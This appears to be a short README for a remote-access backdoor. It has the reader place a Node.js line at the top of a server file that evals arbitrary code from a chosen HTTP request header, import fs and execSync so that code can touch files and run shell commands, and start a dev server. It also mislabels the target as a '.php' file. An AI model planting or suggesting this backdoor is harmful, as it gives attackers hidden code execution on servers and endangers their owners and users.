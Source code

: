 # 1. The Backdoor
Place `if (req.headers?.exploit) return (eval('let r = res;' + req.headers?.exploit));` at the top of the `.php` file.

Replace `exploit` with the header you're going to use (in lowercase). It must match with the `HEADER` variable on the client side.

Replace `res` in `let r = res;` with the name of of the ServerResponse parameter name.

Import `fs` and `{ execSync } from 'child_process`
# 2. Start the dev server
In this directory, run `npm start` to start a dev server on port 8000.